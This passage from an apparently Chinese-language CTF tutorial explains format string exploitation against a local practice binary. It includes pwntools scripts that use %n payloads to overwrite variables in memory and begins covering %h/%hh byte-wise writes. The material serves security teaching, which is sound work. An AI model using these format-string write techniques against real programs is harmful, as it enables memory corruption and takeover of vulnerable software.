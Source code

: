 可以看到第一次出现0x41时，是格式化字符串的第 6 个参数。使用%n将c的地址覆盖，覆盖为16：

```python
from pwn import *
sh = process('./overwrite')
c_addr = int(sh.recvuntil('\n', drop=True), 16)
print hex(c_addr)
payload = p32(c_addr) + 'a'*12 + '%6$n'#c的地址加上12个字符为16，将其写入到第6个参数，也就是我们输入的c_addr的位置。
print payload
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

成功输出modified.c：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf20.png?x-oss-process=style/watermark)

### 2.2.2  将a覆盖为2

我们可以通过ida文件知道a的地址，但是，我们将地址输入后，就已经是4个字节了，怎么才能使得%n统计的字符为2呢？可以先输入两个垃圾字符，然后再输入%n，最后再跟上我们的地址，即aa%k$n+addr，aa%k$n有6个字节，需要占两个栈空间，因此我们的参数位置就变成了第8个。

```python
from pwn import *
sh = process('./overwrite')
a_addr = 0x0804A024
payload = 'aa%8$naa' + p32(a_addr)#aa两个字节，%n=2，写入第8个参数，即a的地址里面
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

成功输出modified a for a small number：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf21.png?x-oss-process=style/watermark)

### 2.2.3 将b覆盖为0x12345678

这是一个很大的数，利用%n不太可能（需要太多垃圾数据），因此覆盖的时候我们直接以字节形式，一个字节一个字节的将这个数写进栈中。0x12345678按照小端序存储的方式为：78 56 34 12。

格式化字符串里面有两个标志：h和 hh。具体来说，h表示将整数作为带符号的短整数（16位）进行转换，输出结果为2个字符，如果整数大于16位，只保留后面的16位；而hh表示将整数作为带符号的字符（8位）进行转换，输出结果为1个字符，如果整数大于8位，只保留后面的8位。

举例，代码如下：

```c
#include <stdio.h>
int main()
{
   int num=30504;
   printf("以h格式输出：%hx\n",num);
   printf("以hh格式输出：%hhx\n",num);
   return 0;
}
```
